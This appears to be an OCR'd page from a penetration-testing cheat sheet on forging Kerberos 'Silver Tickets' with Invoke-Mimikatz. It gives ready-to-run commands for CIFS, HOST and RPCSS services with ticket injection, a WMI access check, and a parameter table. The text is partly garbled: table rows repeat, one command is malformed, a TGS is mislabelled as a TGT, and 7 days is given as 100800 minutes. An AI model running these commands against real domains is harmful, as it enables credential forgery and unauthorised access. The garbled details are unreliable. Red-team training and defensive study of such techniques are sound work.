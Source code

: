 | /renewmax:10080 | Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |

### SILVER TICKET

- Using hash of the Domain Controller computer account

Invoke-Mimikatz -Command '"kerberos::golden /domain:lab.domain.local /sid:S-1-5-x-x-x-x

/target:DC01.lab.domain.local /service:CIFS /rc4:00000000000000000000000000000000 /user:Administrator /ptt"'

# Generate Silver ticket with machine account Hash - WMI abuse

Invoke-Mimikatz -Command '"kerberos::golden /domain:target.local /sid:S-1-5-x-x-x-x

/target:machine.target.local /service:HOST/rc4:00000000000000000000000000000000 /user:Administrator /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /domain:target.local /sid:S-1-5-x-x-x-x

/target:machine.target.local /service:RPCSS/rc4:00000000000000000000000000000000 /user:Administrator /ptt"'

# Check WMI

Get-WmiObject -Class win32_operatingsystem -ComputerName machine.target.local

Silver ticket parameters

| Invoke-Mimikatz -Command | Resume |
| --- | --- |
|  |  |
| kerberos::golden | Name of the module (there is no Silver module!) |
| /User:Administrator | Username for which the TGT is generated |
| /domain:lab.domain.local | Domain FQDN |
|  |  |
| /sid:S-1-5-x-x-x-x | SID of the domain |
| /target:DC01.lab.domain.local | Target server FQDN |
| Invoke-Mimikatz -Command | Resume |
|  |  |
| /service:cifs | The SPN name of service for which TGS is to be created |
| /rc4:00000000000000000000000000000000 | NTLM (RC4) hash of the service account. Use /aes128 and /aes256 for using AES keys |
|  |  |
| /id:500 /groups:512 | Optional User RID (default 500) and
Group (default 513 512 520 518 519) |
| /ptt | Injects the ticket in current PowerShell process - no need to save the ticket on disk |
| /startoffset:0 | Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future |
|  |  |
| /endin:600 | Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes |
|  |  |
| /renewmax:10080 | Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |